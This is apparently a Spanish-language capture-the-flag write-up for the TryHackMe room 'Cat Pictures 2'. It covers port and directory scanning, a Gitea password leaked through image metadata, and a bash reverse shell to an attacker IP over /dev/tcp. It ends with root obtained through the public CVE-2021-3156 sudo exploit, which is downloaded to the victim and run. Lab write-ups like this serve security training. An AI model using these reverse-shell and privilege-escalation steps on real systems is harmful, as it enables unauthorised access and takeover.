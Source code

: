  https://tryhackme.com/r/room/catpictures2
# Fase de reconocimiento
## Buscamos puertos abiertos
Podemos añadir un -A para que sea mas agresivo
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.93.53
```
![[Pasted image 20240503182631.png]]
## Reconocimiento de servicios
```
nmap -sVC -p22,80,222,1337,3000,8080 -Pn 10.10.93.53
```
![[Pasted image 20240503183036.png]]
![[Pasted image 20240503183123.png]]
## Gobuster
```
gobuster dir -u http://10.10.93.53 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
![[Pasted image 20240503183838.png]]
```
gobuster dir -u http://10.10.93.53:1337 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
![[Pasted image 20240503184302.png]]
```
gobuster dir -u http://10.10.93.53:3000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
![[Pasted image 20240503184649.png]]
```
gobuster dir -u http://10.10.93.53:8080 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```

En 3000
![[Pasted image 20240503182940.png]]





# Fase de ataque
## Metadatos de una foto exiftool
```
exiftool cat.jpeg
```
![[Pasted image 20240503185605.png]]
Encontramos una ruta en Tittle que contiene la contraseña de gitea
![[Pasted image 20240503185641.png]]
Este repositorio contiene una aplicación que corre en el equipo en el puerto 1337
![[Pasted image 20240503190306.png]]
![[Pasted image 20240503190234.png]]
Modificamos el código para una reverse shell
```
bash -c "bash -i>&1 /dev/tcp/10.9.2.97/1111 0>&1"
```
Nos ponemos en escucha por el puerto 111
```
nc -nlvp 111
```
Corremos la aplicación desde :1337

[-] ==pwned!==
## Ajustar terminal
```
script /dev/null -c bash
```
ctrl + z
```
stty raw -echo; fg
```
```
	reset xterm
```
```
export TERM=xterm
```
Ajustar proporciones
```
stty rows 44 columns 184
```

# Privilege Escalation
Numeramos archivos con permisos
```
find \-perm -4000 2>/dev/null
```
Encontramos un sudo 
![[Pasted image 20240503194938.png]]
Miramos la version
```
sudo --version
```
Es vulnerable a un ataque de Buffer Overflow
## Exploit
https://github.com/blasty/CVE-2021-3156
1. ```
```
git clone https://github.com/blasty/CVE-2021-3156
```
 2. 
```
tar -cvf exploit.tar CVE-2021-3156
```
3. Abrimos un servidor para compartir el archivo
```
python3 -m http.server
```
4. Desde la maquina victima lo descargamos
```
wget http://10.17.54.133:8000/exploit.tar
```
5. Descomprimimos
```
tar xopf exploit.tar
```
6. Entramos en el directorio y compilamos
```
make
```
7. RUN
```
./sudo-hax-me-a-sandwich 0
```
[+] ==pwned!==
